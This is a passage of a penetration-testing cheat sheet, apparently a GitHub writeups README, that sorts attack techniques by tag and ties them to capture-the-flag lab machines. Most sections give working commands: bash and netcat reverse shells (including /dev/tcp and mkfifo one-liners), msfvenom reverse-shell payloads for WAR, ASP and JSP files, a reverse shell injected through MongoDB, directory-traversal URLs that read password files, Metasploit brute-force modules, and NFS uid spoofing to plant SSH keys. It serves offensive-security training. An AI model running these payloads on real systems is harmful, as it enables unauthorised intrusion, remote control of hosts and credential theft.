| 1. | [Archetype](https://github.com/7h3rAm/writeups/blob/master/htb.archetype/writeup.pdf) | [htb#287](https://app.hackthebox.eu/machines/287) |  | [`enumerate_proto_smb`](https://github.com/7h3rAm/writeups#enumerate_proto_smb), [`enumerate_proto_smb_anonymous_access`](https://github.com/7h3rAm/writeups#enumerate_proto_smb_anonymous_access), [`enumerate_proto_sql`](https://github.com/7h3rAm/writeups#enumerate_proto_sql), [`enumerate_proto_sql_ssis_dtsconfig`](https://github.com/7h3rAm/writeups#enumerate_proto_sql_ssis_dtsconfig), [`exploit_sql_login`](https://github.com/7h3rAm/writeups#exploit_sql_login), [`exploit_sql_xpcmdshell`](https://github.com/7h3rAm/writeups#exploit_sql_xpcmdshell), [`enumerate_app_powershell_history`](https://github.com/7h3rAm/writeups#enumerate_app_powershell_history), [`privesc_psexec_login`](https://github.com/7h3rAm/writeups#privesc_psexec_login) |
  
  
---
<a name="enumerate_proto_sql_ssis_dtsconfig"></a>
#### enumerate_proto_sql_ssis_dtsconfig [⇡](#enumerate)  
The `.dtsConfig` files are used by [SQL Server Integration Services (SSIS)](https://en.wikipedia.org/wiki/SQL_Server_Integration_Services) and can contain plaintext credentials for SQL users.  
```shell
cat *.dtsConfig

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Archetype](https://github.com/7h3rAm/writeups/blob/master/htb.archetype/writeup.pdf) | [htb#287](https://app.hackthebox.eu/machines/287) |  | [`enumerate_proto_smb`](https://github.com/7h3rAm/writeups#enumerate_proto_smb), [`enumerate_proto_smb_anonymous_access`](https://github.com/7h3rAm/writeups#enumerate_proto_smb_anonymous_access), [`enumerate_proto_sql`](https://github.com/7h3rAm/writeups#enumerate_proto_sql), [`enumerate_proto_sql_ssis_dtsconfig`](https://github.com/7h3rAm/writeups#enumerate_proto_sql_ssis_dtsconfig), [`exploit_sql_login`](https://github.com/7h3rAm/writeups#exploit_sql_login), [`exploit_sql_xpcmdshell`](https://github.com/7h3rAm/writeups#exploit_sql_xpcmdshell), [`enumerate_app_powershell_history`](https://github.com/7h3rAm/writeups#enumerate_app_powershell_history), [`privesc_psexec_login`](https://github.com/7h3rAm/writeups#privesc_psexec_login) |
  
  
---
<a name="enumerate_proto_ssh"></a>
#### enumerate_proto_ssh [⇡](#enumerate)  
```shell
authorized_keys:
  ssh-keygen -t rsa -b 2048
    enter a custom filename
  copy contents of <filename>.pub to /home/<username>/.ssh/authorized_keys
  ssh -i <filename>.pub <username>@<targetip>
ssh enum:
  msf > use auxiliary/scanner/ssh/ssh_enumusers
  msf auxiliary(scanner/ssh/ssh_enumusers) > set RHOSTS 10.11.1.0/24
  msf auxiliary(scanner/ssh/ssh_enumusers) > set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
  msf auxiliary(scanner/ssh/ssh_enumusers) > set THREADS 254
  msf auxiliary(scanner/ssh/ssh_enumusers) > run

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [BSides Vancouver: 2018 (Workshop)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.bsidesvancouver2018workshop/writeup.pdf) | [vh#231](https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/) |  | [`enumerate_proto_ftp`](https://github.com/7h3rAm/writeups#enumerate_proto_ftp), [`enumerate_proto_ssh`](https://github.com/7h3rAm/writeups#enumerate_proto_ssh), [`exploit_ssh_bruteforce`](https://github.com/7h3rAm/writeups#exploit_ssh_bruteforce), [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_plugin_hellodolly`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_hellodolly), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers) |
  
  
---
<a name="enumerate_proto_telnet"></a>
#### enumerate_proto_telnet [⇡](#enumerate)  
```shell
nmap -p 23 --script telnet-brute --script-args userdb=/usr/share/metasploit-framework/data/wordlists/unix_users,passdb=/usr/share/wordlists/rockyou.txt,telnet-brute.timeout=20s <targetip>
use auxiliary/scanner/telnet/telnet_version
  msf auxiliary(telnet_version) > set RHOSTS 10.11.1.0/24
  msf auxiliary(telnet_version) > set THREADS 254
  msf auxiliary(telnet_version) > run
use auxiliary/scanner/telnet/telnet_login
  msf auxiliary(telnet_login) > set BLANK_PASSWORDS false
  msf auxiliary(telnet_login) > set PASS_FILE passwords.txt
  msf auxiliary(telnet_login) > set RHOSTS 10.11.1.0/24
  msf auxiliary(telnet_login) > set THREADS 254
  msf auxiliary(telnet_login) > set USER_FILE users.txt
  msf auxiliary(telnet_login) > set VERBOSE false
  msf auxiliary(telnet_login) > run

```
  
  
---
<a name="enumerate_proto_webdav"></a>
#### enumerate_proto_webdav [⇡](#enumerate)  
```shell
default pass for xampp: wampp/xampp
test uploading different file extensions:
  davtest -url http://10.11.1.10
test uploading different file extensions, with given creds:
  davtest -url http://10.11.1.10 -auth username:password
remove files uploaded during test:
  davtest -cleanup
create a reverse shell (asp file even if not allowed)
connect to webdav share, bypass upload restrictions:
  cadaver http://10.11.1.10
  mkdir temp
  cd temp
  put revshell.asp revshell.txt
  copy revshell.txt revshell.asp
open nc to catch reverse shell connection
browse webdav share and open uploaded file

```
  
  
---

<a name="exploit"></a>
### ⚙️ Exploit [🡑](#ttps)
<a name="exploit_apache_tomcat"></a>
#### exploit_apache_tomcat [⇡](#exploit)  
leverage Tomcat Web Application Manager to deploy a malicious .war file that spawns a reverse shell  
```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attackerip> LPORT=<attackerport> -f war >backdoor.war
# deploy war file through tomcat manager
# start netcat listener and visit the link for uploaded jsp file to trigger webshell
jar -xvf backdoor.war
http://<targetip>:<targetport>/<.war filename w/o extension>/<.jsp filename in war archive w/ extension>

```
  
[+] https://0xrick.github.io/hack-the-box/jerry/  
  
---
<a name="exploit_bash_reverseshell"></a>
#### exploit_bash_reverseshell [⇡](#exploit)  
spawn a bash reverse shell to gain interactive access on the target system  
```shell
nc -nlvp <attackerport>
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <attackerip> <attackerport> >/tmp/f

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Misdirection: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.misdirection1/writeup.pdf) | [vh#371](https://www.vulnhub.com/entry/misdirection-1,371/) |  | [`exploit_php_webshell`](https://github.com/7h3rAm/writeups#exploit_php_webshell), [`exploit_bash_reverseshell`](https://github.com/7h3rAm/writeups#exploit_bash_reverseshell), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers), [`privesc_passwd_writable`](https://github.com/7h3rAm/writeups#privesc_passwd_writable) |
  
[+] http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet  
[+] https://highon.coffee/blog/reverse-shell-cheat-sheet/#bash-reverse-shells  
  
---
<a name="exploit_bof"></a>
#### exploit_bof [⇡](#exploit)  
create a bof exploit to execute arbitrary code and gain interactive access on the target system  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Brainpan: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.brainpan/writeup.pdf) | [vh#51](https://www.vulnhub.com/entry/brainpan-1,51/) |  | [`exploit_bof`](https://github.com/7h3rAm/writeups#exploit_bof), [`privesc_anansi`](https://github.com/7h3rAm/writeups#privesc_anansi), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo) |
  
  
---
<a name="exploit_cloudme_bof"></a>
#### exploit_cloudme_bof [⇡](#exploit)  
the CloudMe version 1.11.12 is vulnerable to a buffer overflow that could be used to gain interactive access on the target system, possibly with elevated privileges  
```shell
msfvenom -p windows/shell_reverse_tcp lhost=<attackerip> lport=<attackerport> -b "\x00\x0a\x0d" -f python -a x86 --platform windows -e x86/shikata_ga_nai
sudo nc -nlvp <attackerport>
python 48389.py

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Buff](https://github.com/7h3rAm/writeups/blob/master/htb.buff/writeup.pdf) | [htb#263](https://app.hackthebox.eu/machines/263) |  | [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`exploit_gymsystem_rce`](https://github.com/7h3rAm/writeups#exploit_gymsystem_rce), [`exploit_cloudme_bof`](https://github.com/7h3rAm/writeups#exploit_cloudme_bof) |
  
[+] https://www.exploit-db.com/exploits/48389  
  
---
<a name="exploit_cmdexec"></a>
#### exploit_cmdexec [⇡](#exploit)  
execute arbitrary commands via a command execution vulnerability and gain interactive access on the target system  
```shell
nc -nlvp <attackerport>
bash -i >& /dev/tcp/<attackerip>/<attackerport> 0>&1

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Kioptrix: Level 1.1 (#2)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.kioptrix2/writeup.pdf) | [vh#23](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/) |  | [`exploit_sqli`](https://github.com/7h3rAm/writeups#exploit_sqli), [`exploit_cmdexec`](https://github.com/7h3rAm/writeups#exploit_cmdexec), [`privesc_kernel_ipappend`](https://github.com/7h3rAm/writeups#privesc_kernel_ipappend) |
  
  
---
<a name="exploit_coldfusion_dirtraversal"></a>
#### exploit_coldfusion_dirtraversal [⇡](#exploit)  
coldfusion 8 is vulnerable to a directory traversal and exposes SHA1 hash of the user password  
```shell
http://<targetip>:<targetport>/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

```
  
[+] https://medium.com/@_C_3PJoe/htb-retired-box-write-up-arctic-50eccccc560  
[+] https://www.exploit-db.com/exploits/14641  
  
---
<a name="exploit_coldfusion_scheduledtasks"></a>
#### exploit_coldfusion_scheduledtasks [⇡](#exploit)  
coldfusion 8 allows to obtain remote shell by creating and executing a new scheduled task. this is a post-authentication vulnerability  
```shell
http://<targetip>:<targetport>/CFIDE/administrator/enter.cfm
http://<targetip>:<targetport>/CFIDE/administrator/settings/mappings.cfm # check the CFIDE logical path mapping to identify the file upload location, C:\ColdFusion8\wwwroot\CFIDE
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attackerip> LPORT=<attackerport> -f raw >revshell.jsp
nc -nlvp <attackerport>
http://<targetip>:<targetport>/CFIDE/administrator/scheduler/scheduletasks.cfm
  # set url to revshell.jsp link
  # mark the save output to file option
  # set file to C:\ColdFusion8\wwwroot\CFIDE\revshell.jsp
# run the scheduled task on demand to upload the revshell.jsp file
  http://<targetip>:<targetport>/CFIDE/revshell.jsp

```
  
[+] https://medium.com/@_C_3PJoe/htb-retired-box-write-up-arctic-50eccccc560  
  
---
<a name="exploit_command_injection"></a>
#### exploit_command_injection [⇡](#exploit)  
certain webapps couldbe vulebrable to command injection via input text fields  
```shell
# submit escaped input: "\";whoami\n"

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Year of the Fox](https://github.com/7h3rAm/writeups/blob/master/thm.yotf/writeup.pdf) | [tryhackme#yotf](https://tryhackme.com/room/yotf) |  | [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`exploit_command_injection`](https://github.com/7h3rAm/writeups#exploit_command_injection), [`privesc_env_relative_path`](https://github.com/7h3rAm/writeups#privesc_env_relative_path) |
  
[+] https://muirlandoracle.co.uk/2020/05/30/year-of-the-fox-write-up/  
  
---
<a name="exploit_credsreuse"></a>
#### exploit_credsreuse [⇡](#exploit)  
Reuse credentials already found for a service to interact with another service  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Blocky](https://github.com/7h3rAm/writeups/blob/master/htb.blocky/writeup.pdf) | [htb#48](https://app.hackthebox.eu/machines/48) |  | [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_plugin`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers) |
| 2. | [LazySysAdmin: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.lazysysadmin1/writeup.pdf) | [vh#205](https://www.vulnhub.com/entry/lazysysadmin-1,205/) |  | [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_smb_nullsession`](https://github.com/7h3rAm/writeups#exploit_smb_nullsession), [`exploit_smb_web_root`](https://github.com/7h3rAm/writeups#exploit_smb_web_root), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`exploit_wordpress_template`](https://github.com/7h3rAm/writeups#exploit_wordpress_template), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo) |
| 3. | [Node: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.node1/writeup.pdf) | [vh#252](https://www.vulnhub.com/entry/node-1,252/) |  | [`exploit_nodejs`](https://github.com/7h3rAm/writeups#exploit_nodejs), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`exploit_mongodb`](https://github.com/7h3rAm/writeups#exploit_mongodb), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid) |
| 4. | [Lord Of The Root: 1.0.1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.lordoftheroot101/writeup.pdf) | [vh#129](https://www.vulnhub.com/entry/lord-of-the-root-101,129/) |  | [`exploit_sqli`](https://github.com/7h3rAm/writeups#exploit_sqli), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`privesc_kernel_overlayfs`](https://github.com/7h3rAm/writeups#privesc_kernel_overlayfs), [`privesc_mysql_root`](https://github.com/7h3rAm/writeups#privesc_mysql_root), [`privesc_mysql_udf`](https://github.com/7h3rAm/writeups#privesc_mysql_udf) |
| 5. | [Kioptrix: Level 1.3 (#4)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.kioptrix4/writeup.pdf) | [vh#25](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/) |  | [`exploit_sqli`](https://github.com/7h3rAm/writeups#exploit_sqli), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`privesc_shell_escape`](https://github.com/7h3rAm/writeups#privesc_shell_escape), [`privesc_mysql_root`](https://github.com/7h3rAm/writeups#privesc_mysql_root), [`privesc_mysql_udf`](https://github.com/7h3rAm/writeups#privesc_mysql_udf) |
  
  
---
<a name="exploit_defaultcreds"></a>
#### exploit_defaultcreds [⇡](#exploit)  
Use default credentials to interact with a service  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Mirai](https://github.com/7h3rAm/writeups/blob/master/htb.mirai/writeup.pdf) | [htb#64](https://app.hackthebox.eu/machines/64) |  | [`exploit_defaultcreds`](https://github.com/7h3rAm/writeups#exploit_defaultcreds), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers) |
  
  
---
<a name="exploit_drupal_passwordcrack"></a>
#### exploit_drupal_passwordcrack [⇡](#exploit)  
Crack a drupal password hash  
```shell
hashcat -m 7900 hash.txt /usr/share/wordlists/rockyou.txt -o cracked.txt --force

```
  
[+] https://0xdf.gitlab.io/2019/03/12/htb-bastard.html  
  
---
<a name="exploit_ftp_anonymous"></a>
#### exploit_ftp_anonymous [⇡](#exploit)  
Interact with the ftp service using `anonymous/any` credentials  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Devel](https://github.com/7h3rAm/writeups/blob/master/htb.devel/writeup.pdf) | [htb#3](https://app.hackthebox.eu/machines/3) |  | [`exploit_ftp_anonymous`](https://github.com/7h3rAm/writeups#exploit_ftp_anonymous), [`exploit_ftp_web_root`](https://github.com/7h3rAm/writeups#exploit_ftp_web_root), [`exploit_iis_asp_reverseshell`](https://github.com/7h3rAm/writeups#exploit_iis_asp_reverseshell), [`privesc_windows_ms11_046`](https://github.com/7h3rAm/writeups#privesc_windows_ms11_046) |
  
  
---
<a name="exploit_ftp_web_root"></a>
#### exploit_ftp_web_root [⇡](#exploit)  
FTP server's root directory is mapped to the web server's root directory. Upload a reverse shell file native to the web server using ftp server (`anonymous` login or default creds or creds reuse or some exploit) and trigger it's execution to gain interactive access on the target system  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Devel](https://github.com/7h3rAm/writeups/blob/master/htb.devel/writeup.pdf) | [htb#3](https://app.hackthebox.eu/machines/3) |  | [`exploit_ftp_anonymous`](https://github.com/7h3rAm/writeups#exploit_ftp_anonymous), [`exploit_ftp_web_root`](https://github.com/7h3rAm/writeups#exploit_ftp_web_root), [`exploit_iis_asp_reverseshell`](https://github.com/7h3rAm/writeups#exploit_iis_asp_reverseshell), [`privesc_windows_ms11_046`](https://github.com/7h3rAm/writeups#privesc_windows_ms11_046) |
  
  
---
<a name="exploit_gpp_groupsxml"></a>
#### exploit_gpp_groupsxml [⇡](#exploit)  
the Groups.xml file lists username and encrypted password that can be useful to gain initial access on the target system. access this file via an open ftp/smb share or some other method  
```shell
smbclient //10.10.10.100/Replication
get ..\\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml Groups.xml
exit
cat Groups.xml 
gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
smbclient //10.10.10.100/Users -U SVC_TGS

```
  
[+] https://0xrick.github.io/hack-the-box/active/  
[+] https://adsecurity.org/?p=2288  
  
---
<a name="exploit_gymsystem_rce"></a>
#### exploit_gymsystem_rce [⇡](#exploit)  
use `/contacts.php` to confirm the version is 1.0 and fire this exploit to get a pseudo-interactive shell on the target machine. you can  
```shell
python 48506.py http://<targetip>:<targetport>/

curl "http://<targetip>:<targetport>/upload/kamehameha.php?telepathy=whoami"

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Buff](https://github.com/7h3rAm/writeups/blob/master/htb.buff/writeup.pdf) | [htb#263](https://app.hackthebox.eu/machines/263) |  | [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`exploit_gymsystem_rce`](https://github.com/7h3rAm/writeups#exploit_gymsystem_rce), [`exploit_cloudme_bof`](https://github.com/7h3rAm/writeups#exploit_cloudme_bof) |
  
[+] https://www.exploit-db.com/exploits/48506  
  
---
<a name="exploit_hfs_cmd_exec"></a>
#### exploit_hfs_cmd_exec [⇡](#exploit)  
HFS (`HttpFileServer 2.3.x`) is vulnerable to remote command execution  
```shell
python 39161.py <targetip> <targetport>

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Optimum](https://github.com/7h3rAm/writeups/blob/master/htb.optimum/writeup.pdf) | [htb#6](https://app.hackthebox.eu/machines/6) |  | [`exploit_hfs_cmd_exec`](https://github.com/7h3rAm/writeups#exploit_hfs_cmd_exec), [`privesc_windows_ms16_098`](https://github.com/7h3rAm/writeups#privesc_windows_ms16_098) |
  
[+] https://www.exploit-db.com/exploits/39161  
[+] https://nvd.nist.gov/vuln/detail/CVE-2014-6287  
  
---
<a name="exploit_iis_asp_reverseshell"></a>
#### exploit_iis_asp_reverseshell [⇡](#exploit)  
use an `asp`|`aspx` reverse shell to gain interactive access on the target system. useful when Microsoft IIS server is found during enumeration. might need a separate vulnerability to upload the reverse shell file on target system (use burp to bypass filename filter - revshell.aspx%00.jpg)  
```shell
msfvenom -p windows/shell/reverse_tcp LHOST=<attackerip> LPORT=<attackerport> -f asp >rs.asp
msfvenom -p windows/shell_reverse_tcp LHOST=<attackerip> LPORT=<attackerport> -f aspx >rs.aspx

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Devel](https://github.com/7h3rAm/writeups/blob/master/htb.devel/writeup.pdf) | [htb#3](https://app.hackthebox.eu/machines/3) |  | [`exploit_ftp_anonymous`](https://github.com/7h3rAm/writeups#exploit_ftp_anonymous), [`exploit_ftp_web_root`](https://github.com/7h3rAm/writeups#exploit_ftp_web_root), [`exploit_iis_asp_reverseshell`](https://github.com/7h3rAm/writeups#exploit_iis_asp_reverseshell), [`privesc_windows_ms11_046`](https://github.com/7h3rAm/writeups#privesc_windows_ms11_046) |
  
[+] https://highon.coffee/blog/reverse-shell-cheat-sheet/#kali-aspx-shells  
  
---
<a name="exploit_iis_webdav"></a>
#### exploit_iis_webdav [⇡](#exploit)  
multiple iis webdav issues. can use msf exploits `windows/iis/iis_webdav_scstoragepathfromurl` or `windows/iis/iis_webdav_upload_asp` to gain interactive access on the target system  
```shell
msfconsole
  use windows/iis/iis_webdav_scstoragepathfromurl
    set rhost <targetip>
    set rport <targetport>
    show options
    exploit
  use windows/iis/iis_webdav_upload_asp
    set rhost <targetip>
    set rport <targetport>
    show options
    exploit

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Grandpa](https://github.com/7h3rAm/writeups/blob/master/htb.grandpa/writeup.pdf) | [htb#13](https://app.hackthebox.eu/machines/13) |  | [`exploit_iis_webdav`](https://github.com/7h3rAm/writeups#exploit_iis_webdav), [`privesc_windows_ms14_070`](https://github.com/7h3rAm/writeups#privesc_windows_ms14_070) |
| 2. | [Granny](https://github.com/7h3rAm/writeups/blob/master/htb.granny/writeup.pdf) | [htb#14](https://app.hackthebox.eu/machines/14) |  | [`exploit_iis_webdav`](https://github.com/7h3rAm/writeups#exploit_iis_webdav), [`privesc_windows_ms15_051`](https://github.com/7h3rAm/writeups#privesc_windows_ms15_051) |
  
[+] https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl  
[+] https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_upload_asp  
  
---
<a name="exploit_lotuscms"></a>
#### exploit_lotuscms [⇡](#exploit)  
LotusCMS is vulnerable to remote code execution  
```shell
nc -nlvp <attackerport>
./lotusRCE.sh <targetip>

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Kioptrix: Level 1.2 (#3)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.kioptrix3/writeup.pdf) | [vh#24](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/) |  | [`exploit_lotuscms`](https://github.com/7h3rAm/writeups#exploit_lotuscms), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo) |
  
[+] https://github.com/Hood3dRob1n/LotusCMS-Exploit/blob/master/lotusRCE.sh  
  
---
<a name="exploit_modssl"></a>
#### exploit_modssl [⇡](#exploit)  
Apache `mod_ssl < 2.8.7` is vulnerable to remote code execution  
```shell
gcc -o 47080 47080.c -lcrypto
./47080
  0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
./47080 0x6b <targetip> <targetport>

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Kioptrix: Level 1 (#1)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.kioptrix1/writeup.pdf) | [vh#22](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/) |  | [`exploit_modssl`](https://github.com/7h3rAm/writeups#exploit_modssl), [`privesc_modssl`](https://github.com/7h3rAm/writeups#privesc_modssl) |
  
[+] https://www.exploit-db.com/exploits/47080  
[+] https://nvd.nist.gov/vuln/detail/CVE-2002-0082  
  
---
<a name="exploit_mongodb"></a>
#### exploit_mongodb [⇡](#exploit)  
```shell
nc -nlvp <attackerport>
  mongo -p -u <user> <record>
    db.tasks.insert({"cmd": "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attackerip> <attackerport> >/tmp/f"})
    bye

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Node: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.node1/writeup.pdf) | [vh#252](https://www.vulnhub.com/entry/node-1,252/) |  | [`exploit_nodejs`](https://github.com/7h3rAm/writeups#exploit_nodejs), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`exploit_mongodb`](https://github.com/7h3rAm/writeups#exploit_mongodb), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid) |
  
  
---
<a name="exploit_nfs_rw"></a>
#### exploit_nfs_rw [⇡](#exploit)  
when an open nfs share is found, look for available mountpoints, mount using `nfsv3` so that we can see the real remote `uid` and `gid`, create a new user with expected `uid`, switch user, create the `.ssh` directory, copy `id_rsa.pub` to this directory and ssh to gain interactive access on the target system  
```shell
check available mountpoints
mount file system via nfs v3
check uid of user
create a new local user with nfs user's uid
change to new user
copy ssh public key to .ssh/authorized_keys file
ssh into the target as user
copy root owned copy of bash from local system to nfs mount
running "./bash -p" gives root access as euid is carried over during copy operation
mount nfsv3, create new user with nfs user uid and get root shell
unmount and remove temporary user:
  showmount -e <targetip>
  mkdir /tmp/nfs
  mount <targetip>:/home/vulnix /tmp/nfs -o vers=3 # nfs v3 allows listing of user ids for shared files
  ls -l /tmp/nfs # check the uid and use it to create new user
  useradd -u 2008 vulnix
  su vulnix
  copy ~/.ssh/id_rsa.pub to ~/.ssh/authorized_keys on target host to gain passwordless ssh access
  umount /tmp/nfs ; userdel vulnix

showmount -e <targetip>
  Export list for <targetip>:
  /home/vulnix *
  mkdir ./mnt/
mount <targetip>:/home/vulnix ./mnt -o vers=3
ls -l
groupadd --gid 2008 vulnix ; useradd --uid 2008 --groups vulnix vulnix
cp ~/.ssh/id_rsa.pub ./authorized_keys
su vulnix
cd ./mnt/
mkdir .ssh/
cp ./authorized_keys ./.ssh/
exit
ssh vulnix@<targetip>

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Lin.Security: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.linsecurity1/writeup.pdf) | [vh#244](https://www.vulnhub.com/entry/linsecurity-1,244/) |  | [`exploit_nfs_rw`](https://github.com/7h3rAm/writeups#exploit_nfs_rw), [`exploit_ssh_authorizedkeys`](https://github.com/7h3rAm/writeups#exploit_ssh_authorizedkeys), [`privesc_strace_setuid`](https://github.com/7h3rAm/writeups#privesc_strace_setuid), [`privesc_docker_group`](https://github.com/7h3rAm/writeups#privesc_docker_group) |
| 2. | [HackLAB: Vulnix](https://github.com/7h3rAm/writeups/blob/master/vulnhub.vulnix/writeup.pdf) | [vh#48](https://www.vulnhub.com/entry/hacklab-vulnix,48/) |  | [`exploit_nfs_rw`](https://github.com/7h3rAm/writeups#exploit_nfs_rw), [`exploit_ssh_authorizedkeys`](https://github.com/7h3rAm/writeups#exploit_ssh_authorizedkeys), [`privesc_nfs_norootsquash`](https://github.com/7h3rAm/writeups#privesc_nfs_norootsquash), [`privesc_ssh_authorizedkeys`](https://github.com/7h3rAm/writeups#privesc_ssh_authorizedkeys) |
  
[+] https://blog.christophetd.fr/write-up-vulnix/  
  
---
<a name="exploit_nodejs"></a>
#### exploit_nodejs [⇡](#exploit)  
inspect source for `assets/js/app/controllers/*.js` files and look for rest api calls that could leak sensitive information  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Node: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.node1/writeup.pdf) | [vh#252](https://www.vulnhub.com/entry/node-1,252/) |  | [`exploit_nodejs`](https://github.com/7h3rAm/writeups#exploit_nodejs), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`exploit_mongodb`](https://github.com/7h3rAm/writeups#exploit_mongodb), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid) |
  
  
---
<a name="exploit_nodejs_deserialize"></a>
#### exploit_nodejs_deserialize [⇡](#exploit)  
user input is passed to `unserialize()` method that could allow remote code execution  
  
[+] https://dastinia.io/write-up/hackthebox/2018/08/25/hackthebox-celestial-writeup/  
[+] https://github.com/hoainam1989/training-application-security/blob/master/shell/node_shell.py  
[+] https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py  
[+] https://0xdf.gitlab.io/2018/08/25/htb-celestial.html  
  
---
<a name="exploit_pchart"></a>
#### exploit_pchart [⇡](#exploit)  
the `pChart 2.1.3` web application is vulnerable to directory traversal  
```shell
http://<targetip>/pChart2.1.3/examples/index.php?Action=View&Script=/../../etc/passwd

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Kioptrix: 2014 (#5)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.kioptrix5/writeup.pdf) | [vh#62](https://www.vulnhub.com/entry/kioptrix-2014-5,62/) |  | [`exploit_pchart`](https://github.com/7h3rAm/writeups#exploit_pchart), [`exploit_phptax`](https://github.com/7h3rAm/writeups#exploit_phptax), [`privesc_freebsd`](https://github.com/7h3rAm/writeups#privesc_freebsd) |
  
[+] https://www.exploit-db.com/exploits/31173  
[+] https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/zpanel_information_disclosure_rce.rb  
  
---
<a name="exploit_pfsense"></a>
